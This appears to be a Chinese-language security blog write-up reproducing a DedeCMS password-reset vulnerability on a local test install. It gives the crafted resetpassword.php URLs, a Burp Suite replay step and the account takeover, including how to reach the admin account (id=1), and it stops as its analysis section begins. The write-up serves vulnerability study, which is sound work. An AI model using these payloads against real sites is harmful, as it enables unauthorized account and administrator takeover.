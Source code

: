 这里注册两个账号（不要设置安全问题）



受害用户  text/123456

攻击者   hacher/123456

![image-20211122230934064](https://raw.githubusercontent.com/todis21/image/main/img/image-20211122230934064.png)

站在攻击者的角度，攻击者是不知道受害用户的密码的，现在的目的是登录受害用户的账号

现在先登录攻击者账号再将URL中member后的内容改为resetpassword.php?dopost=safequestion&safequestion=0.0&safeanswer=&id=3

上图的mid即为id,hacker账号的mid为3，所以url后面填写id=3 

![image-20211122230838209](https://raw.githubusercontent.com/todis21/image/main/img/image-20211122230838209.png)



访问http://127.0.0.1/dedecms/uploads/member/resetpassword.php?dopost=safequestion&safequestion=0.0&safeanswer=&id=3

用burp Suite抓包，我在chrome浏览器抓不到本地的包，所以转用火狐，火狐抓本地的包需要改一些设置[传送门](https://blog.csdn.net/XavierDarkness/article/details/91410910)

抓到包后发给repeater,进行重放

![image-20211122232233520](https://raw.githubusercontent.com/todis21/image/main/img/image-20211122232233520.png)



把id改一下，要不得不到红圈得链接

http://127.0.0.1/dedecms/uploads/member/resetpassword.php?dopost=getpasswd&amp;id=2&amp;key=f2O1mLr8

把没用得参数`amp;`去除，得到

http://127.0.0.1/dedecms/uploads/member/resetpassword.php?dopost=getpasswd&id=2&key=f2O1mLr8

直接访问这个链接就可以改密码了

![image-20211122232631788](https://raw.githubusercontent.com/todis21/image/main/img/image-20211122232631788.png)

修改密码后成功登录

![image-20211122232855916](https://raw.githubusercontent.com/todis21/image/main/img/image-20211122232855916.png)

把http://127.0.0.1/dedecms/uploads/member/resetpassword.php?dopost=getpasswd&id=2&key=f2O1mLr8的id的值改成其他的，就能改其他其他用户的密码了，包括admin（id=1）

![image-20211122233053082](https://raw.githubusercontent.com/todis21/image/main/img/image-20211122233053082.png)

复现结束。



##  漏洞分析

刚刚使用的payload是`http://127.0.0.1/dedecms/uploads/member/resetpassword.php?dopost=getpasswd&id=2&key=f2O1mLr8` 
